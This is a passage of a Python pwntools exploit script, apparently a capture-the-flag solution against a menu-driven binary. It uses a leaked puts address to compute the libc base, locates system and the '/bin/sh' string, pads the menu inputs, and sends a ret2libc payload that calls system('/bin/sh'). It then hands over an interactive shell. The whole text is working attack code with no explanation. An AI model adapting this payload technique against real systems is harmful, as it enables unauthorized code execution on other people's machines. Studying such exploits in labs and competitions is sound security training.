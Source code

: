 ```python

log.info("LEAK: " + hex(u32(leak)))
puts_offset = libc.symbols['puts']
log.info("offset puts: " + hex(puts_offset))
libc.address = u32(leak) - puts_offset
log.info("Libc base: " + hex(libc.address))

bin_sh = next(libc.search(b'/bin/sh\x00'))
system = libc.symbols['system']


r.sendline("1")
r.recv()
r.sendline("a"*0x2f)
r.recv()
r.sendline("2")
r.recv()
r.sendline("a"*0x1)
r.recv()
r.sendline("2")
r.recv()

payload = b"b"*7 + p32(system) + p32((binary.sym['main'])) + p32(bin_sh)

r.sendline(payload)

r.recv()
r.sendline("3")
r.recv()
r.sendline("3")
r.recv()

r.interactive()

```

